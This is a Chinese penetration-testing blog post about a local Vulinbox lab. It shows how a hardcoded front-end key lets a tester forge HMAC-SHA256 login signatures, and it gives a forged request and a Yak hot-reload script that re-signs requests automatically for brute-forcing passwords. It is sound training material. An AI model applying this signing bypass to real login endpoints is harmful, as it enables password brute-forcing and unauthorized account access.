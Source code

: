 [合集 \- 高级前端加解密与验签实战(1\)](https://github.com)1\.渗透测试\-前端验签绕过之SHA25612\-14收起
本文是高级前端加解密与验签实战的第1篇文章，本系列文章实验靶场为Yakit里自带的Vulinbox靶场，本文讲述的是绕过SHA256签名来爆破登录。


## 绕过


[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005130112-183765002.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005130112-183765002.png)


通过查看源代码可以看到key为



```
1234123412341234

```

[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005133198-1662357300.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005133198-1662357300.png)


通过查看源代码可以看到是通过SHA256来进行签名的，他把请求体的username和password字段提取，然后进行加密。



```
username=admin&password=admin123

```

[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005136827-1401035207.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005136827-1401035207.png)


使用Cyberchief加密，最终得到加密值为：`fc4b936199576dd7671db23b71100b739026ca9dcb3ae78660c4ba3445d0654d`


[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005139852-723382500.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005139852-723382500.png)


可以看到自己计算和前端计算的一致：


[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005143563-741888526.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005143563-741888526.png)


修改密码，重新构造签名：



```
username=admin&password=666666
=>
26976ad249c29595c3e9e368d9c3bc772b5a27291515caddd023d69421b7ffee

```

[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005148499-2079865334.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005148499-2079865334.png)


发送请求，可以看到验签成功，密码正确登陆成功，自此签名绕过成功。



```
POST /crypto/sign/hmac/sha256/verify HTTP/1.1
Host: 127.0.0.1:8787
Content-Type: application/json

{
  "signature": "26976ad249c29595c3e9e368d9c3bc772b5a27291515caddd023d69421b7ffee",
  "key": "31323334313233343132333431323334",
  "username": "admin",
  "password": "666666"
}

```

[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005152327-1303090435.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005152327-1303090435.png)


## 热加载


这是我写的热加载代码，通过`beforeRequest`劫持请求包，使用`encryptData`函数进行加密，最终实现热加载自动签名功能。



```
encryptData = (packet) => {
    body = poc.GetHTTPPacketBody(packet)
    params = json.loads(body)
    //获取账号和密码
    name = params.username
    pass  = params.password
    key = "31323334313233343132333431323334"    //十六进制密钥

    //HmacSha256加密
    signText = f`username=${name}&password=${pass}`
    sign = codec.EncodeToHex(codec.HmacSha256(f`${codec.DecodeHex(key)~}`, signText))

    //构造请求体
    result = f`{"username":"${name}","password":"${pass}","signature":"${sign}","key":"${key}"}`

    return string(poc.ReplaceBody(packet, result, false))
}

//发送到服务端修改数据包
// beforeRequest = func(req){
//     return encryptData(req)
// }

//调试用
packet = <<
```

调试结果如下：
[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005207512-1712536217.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005207512-1712536217.png):[westworld加速](https://xbsj9.com)


把`beforeRequest`取消注释，添加到Web Fuzzer模块的热加载中：


[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005209904-617821989.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005209904-617821989.png)


保存后发送请求，热加载成功实现自动签名功能。
[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005212881-1707760919.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005212881-1707760919.png)
[![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005215343-226820087.png)](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005215343-226820087.png)


 \_\_EOF\_\_

   ![](https://github.com/CVE-Lemon)柠檬i  - **本文链接：** [https://github.com/CVE\-Lemon/p/18606207](https://github.com)
 - **关于博主：** 评论和私信会在第一时间回复。或者[直接私信](https://github.com)我。
 - **版权声明：** 本博客所有文章除特别声明外，均采用 [BY\-NC\-SA](https://github.com "BY-NC-SA") 许可协议。转载请注明出处！
 - **声援博主：** 如果您觉得文章对您有帮助，可以点击文章右下角**【[推荐](javascript:void(0);)】**一下。
     
